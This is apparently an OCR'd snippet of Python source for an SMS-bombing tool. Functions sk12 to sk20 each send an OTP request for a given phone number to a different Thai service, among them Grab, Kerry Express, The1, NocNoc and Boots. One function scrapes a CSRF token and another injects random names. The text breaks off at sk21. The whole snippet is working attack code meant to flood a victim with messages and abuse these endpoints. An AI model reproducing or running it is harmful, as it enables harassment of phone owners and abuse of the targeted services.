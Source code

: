 def sk12(phone):

    post("https://partner-api.grab.com/grabid/v1/oauth2/otp", headers={"User-Agent": useragent}, json={"client_id":"4ddf78ade8324462988fec5bfc5874c2","transaction_ctx":"null","country_code":"TH","method":"SMS","num_digits":"6","scope":"openid profile.read foodweb.order foodweb.rewards foodweb.get_enterprise_profile","phone_number": f"66{phone[1:]}"})

def sk13(phone):

    post("https://api.scg-id.com/api/otp/send_otp", headers={"User-Agent": useragent, "Content-Type": "application/json;charset=UTF-8"},json={"phone_no": phone})

def sk14(phone):

    session = Session()

    searchItem = session.get("https://www.shopat24.com/register/").text

    ReqTOKEN = search("""<input type="hidden" name="_csrf" value="(.*)" />""", searchItem).group(1)

    session.post("https://www.shopat24.com/register/ajax/requestotp/", headers={"User-Agent": useragent, "content-type": "application/x-www-form-urlencoded; charset=UTF-8","X-CSRF-TOKEN": ReqTOKEN}, data={"phoneNumber": phone})

def sk15(phone):

    post("https://prettygaming168-api.auto888.cloud/api/v3/otp/send", headers={"User-Agent": useragent}, data={"tel": phone,"otp_type":"register"})

def sk16(phone):

    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP", headers={"User-Agent": useragent}, json={"on":{"value": phone,"country":"66"},"type":"mobile"})

def sk17(phone):

    post(f"https://th.kerryexpress.com/website-api/api/OTP/v1/RequestOTP/{phone}", headers={"User-Agent": useragent})

def sk18(phone):

    post("https://graph.firster.com/graphql",headers={"User-Agent": useragent, "organizationcode": "lifestyle","content-type": "application/json"}, json={"operationName":"sendOtp","variables":{"input":{"mobileNumber": phone[1:],"phoneCode":"THA-66"}},"query":"mutation sendOtp($input: SendOTPInput!) {\n  sendOTPRegister(input: $input) {\n    token\n    otpReference\n    expirationOn\n    __typename\n  }\n}\n"})

def sk19(phone):

    post("https://nocnoc.com/authentication-service/user/OTP?b-uid=1.0.661", headers={"User-Agent": useragent}, json={"lang":"th","userType":"BUYER","locale":"th","orgIdfier":"scg","phone": f"+66{phone[1:]}","type":"signup","otpTemplate":"buyer_signup_otp_message","userParams":{"buyerName": randomString(10)}})

def sk20(phone):

    post("https://store.boots.co.th/api/v1/guest/register/otp", headers={"User-Agent": useragent}, json={"phone_number":f"+66{phone[1:]}"})

def sk21(phone):
